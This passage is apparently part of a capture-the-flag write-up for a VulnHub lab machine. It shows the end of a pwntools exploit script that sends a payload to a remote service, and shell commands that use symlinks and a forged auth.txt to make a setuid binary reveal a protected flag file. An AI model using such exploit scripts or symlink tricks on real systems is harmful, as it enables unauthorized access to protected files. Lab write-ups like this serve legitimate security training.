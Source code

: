 ```

try:
    with context.quiet:
        if local:
            p = process("./ctftp")
        else:
            p = remote(HOST, PORT)
    log.debug("Sending {}".format(encode_payload(final_payload)))
    p.sendline(final_payload)
    p.interactive()
except EOFError as e:
    log.error(e)
finally:
    with context.quiet:
        p.close()
```

# bob

Another binary with the suid bit set (owned by `charlie`) can be found in `/home/bob/filez/flag_vault`. The directory also contains an unreadable `flag.txt` and `auth.txt`. The `flag_vault` binary contains a buffer overflow which I tried several hours to exploit but there is an easier way:

We can copy the binary to a writeable location, create our own `auth.txt` and create a symlink to `flag.txt`. As the binary uses no absolute paths for the files we can trick it to use these two files and we are able to read the contents of the file and get the next flag.

![binaryninja](/img/vulnhub_dc416_baffle/binaryninja_flag_vault.png)

```
cd /home/alice/
echo test > auth.txt
ln -s /home/bob/filez/flag.txt /home/alice/flag.txt
ln -s /home/bob/filez/flag_vault /home/alice/flag_vault
```

```
$ ./flag_vault
______ _                _    _   _             _ _   
|  ___| |            /\| |/\| | | |           | | |  
| |_  | | __ _  __ _ \ ` ' /| | | | __ _ _   _| | |_
|  _| | |/ _` |/ _` |_     _| | | |/ _` | | | | | __|
| |   | | (_| | (_| |/ , . \\ \_/ / (_| | |_| | | |_
\_|   |_|\__,_|\__, |\/|_|\/ \___/ \__,_|\__,_|_|\__|
                __/ |                                
               |___/                                 

ENTER YOUR AUTHENTICATION CODE: test
CHECKING CODE... CODE IS VALID
DATA: FLAG{tr3each3ry_anD_cUnn1ng}
```
